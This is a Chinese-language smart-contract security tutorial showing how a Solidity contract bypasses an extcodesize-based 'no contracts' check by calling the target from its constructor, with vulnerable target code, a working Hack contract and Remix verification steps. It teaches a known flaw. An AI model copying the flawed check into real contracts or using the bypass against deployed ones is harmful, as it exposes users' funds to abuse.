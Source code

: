 # Bypass Contract Size Check
## 漏洞
如果一个地址是一个合约，那么存储在该地址的代码大小肯定大于0，对吧？

让我们看看如何创建一个代码大小由extcodesize返回的合约等于0的合约。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Target {
    function isContract(address account) public view returns (bool) {
        // 该方法依赖于extcodesize函数，对于正在构建中的合约，该函数返回0，因为代码只在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}

contract FailedAttack {
    // 尝试调用Target.protected将失败，
    // Target阻止从合约调用
    function pwn(address _target) external {
        // 这将失败
        Target(_target).protected();
    }
}

contract Hack {
    bool public isContract;
    address public addr;

    // 当合约正在创建时，代码大小（extcodesize）为0。
    // 这将绕过isContract()检查
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        //这将起作用
        Target(_target).protected();
    }
}
```

## remix验证
1.部署Target合约，调用 isContract函数输入一个合约地址，查看结果
![79-1.jpg](img/79-1.jpg)
2.部署FailedAttack合约，调用pwn函数输入上一步的Target合约地址，验证是否成功
![79-2.jpg](img/79-2.jpg)
3.部署Hack合约，将Target合约地址作为参数传入构造函数。Hack合约的构造函数调用Target.isContract()方法，但此时Hack合约的代码大小为0，因此isContract()方法返回false。
![79-3.jpg](img/79-3.jpg)
4.Hack合约的构造函数调用Target.protected()方法，由于调用者是一个地址而不是合约，因此调用成功并将pwned变量设置为true。查看Target合约的pwned变量，应该为true，说明攻击成功。
![79-4.jpg](img/79-4.jpg)